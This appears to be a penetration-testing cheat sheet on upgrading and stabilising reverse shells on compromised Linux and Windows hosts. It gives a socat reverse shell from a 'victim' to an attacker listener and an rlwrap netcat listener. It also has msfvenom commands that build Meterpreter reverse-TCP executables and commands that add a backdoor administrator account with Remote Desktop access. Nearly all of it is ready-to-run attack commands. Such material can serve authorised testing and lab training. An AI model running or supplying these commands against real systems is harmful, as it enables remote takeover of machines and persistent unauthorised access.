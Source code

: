 


Most [netcat](../Tools/netcat.md)-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or `su` and `sudo` tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. It is always a good idea upgrade any non-interactive shell to an interactive one.

# Linux

## Python PTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## TERM and SHELL Exports

```bash
SHELL=/bin/bash script -q /dev/null

^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

## Socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Fix Rows and Columns

From a clean terminal:

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

From the "malformed" terminal:

```bash
www-data@luigi:/var/www$ stty rows 60 columns 235
stty rows 60 columns 235
```

---

# Windows:

## Rlwrap [^1]

[^1]: https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ rlwrap nc -nlvp 443
```

## Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
```

## RDP

```powershell
net user maoutis Qwerty123! /add
net localgroup Administrators maoutis /add
net localgroup "Remote Desktop Users" maoutis /ADD
```
